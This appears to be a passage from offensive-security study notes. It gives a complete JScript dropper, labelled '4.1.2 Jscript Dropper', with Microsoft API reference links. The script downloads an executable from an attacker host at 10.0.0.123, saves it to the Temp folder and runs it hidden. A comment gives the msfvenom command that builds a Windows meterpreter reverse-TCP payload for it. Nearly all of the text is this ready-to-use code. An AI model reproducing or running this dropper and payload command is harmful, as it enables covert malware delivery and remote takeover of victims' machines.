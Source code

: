 ```hta
</html>
```

## 4.1.2 Jscript Dropper

References:
- [XMLHTTPRequest](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms759148(v=vs.85))
- [status Property (IXMLHTTPRequest)](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms767625%28v%3dvs.85%29)
- [responseBody Property (ServerXMLHTTPRequest-IServerXMLHTTPRequest)](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms753682%28v%3dvs.85%29)

Complete Jscript code to download and execute a staged payload

Basic_Jscript_dropper.js

```js
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.123 LPORT=443 -f exe -o staged_shell.exe
// URL to download the payload executable
var url = "http://10.0.0.123/staged_shell.exe";

try {
    // Use more explicit object names and ensure only necessary objects are created
    var httpRequest = WScript.CreateObject('MSXML2.XMLHTTP');
    httpRequest.Open('GET', url, false);  // Synchronous request
    httpRequest.Send();

    // Check for HTTP OK status before proceeding
    if (httpRequest.Status === 200) {
        var fileStream = WScript.CreateObject('ADODB.Stream');
        fileStream.Open();
        fileStream.Type = 1; // Binary type
        fileStream.Write(httpRequest.ResponseBody); // Write binary data
        fileStream.Position = 0; // Set the stream position to the beginning

        // Enhanced security for file path and handling
        var shell = WScript.CreateObject("WScript.Shell");
        var tempFolder = shell.ExpandEnvironmentStrings("%TEMP%");  // Use temp directory
        var filePath = tempFolder + "\\staged_shell.exe";

        fileStream.SaveToFile(filePath, 2); // Save file as overwrite if exists
        fileStream.Close();

        // Execute the payload from a secure location and handle execution separately
        shell.Run(filePath, 0, true); // 0 - window style hidden, true - wait for return
    } else {
        WScript.Echo("Failed to download the payload. Server returned status: " + httpRequest.Status);
    }
} catch (e) {
    // Error handling to catch and log errors if any step fails
    WScript.Echo("An error occurred: " + e.message);
}

```

